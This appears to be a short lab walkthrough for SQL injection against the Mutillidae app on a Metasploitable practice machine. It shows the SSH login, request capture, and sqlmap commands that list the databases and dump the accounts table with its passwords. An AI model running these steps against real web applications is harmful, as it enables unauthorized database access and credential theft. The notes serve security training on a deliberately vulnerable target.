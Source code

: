 We will use the tool **Sqlmap**

- Connect to the Metasploitable machine:

````
ssh msfadmin@ip_addr
````

- Edit the config.inc file in /var/www/mutillidae/
![[mutillidae.png]]

- In the mutillidae page, select OWASP Top 10, A1 Injection, SQLi -Extract data, User info
![[mutillidae 2.png]]

- Reload
- Save the intercept on a txt file
Follow the next commands:

````
sqlmap -r sqlinjection.txt --dbs

sqlmap -r sqlinjection.txt -D owasp10 --tables

sqlmap -r sqlinjection.txt -D owasp10 -T accounts --dump
````

We get the accounts and passwords:
![[accounts.png]]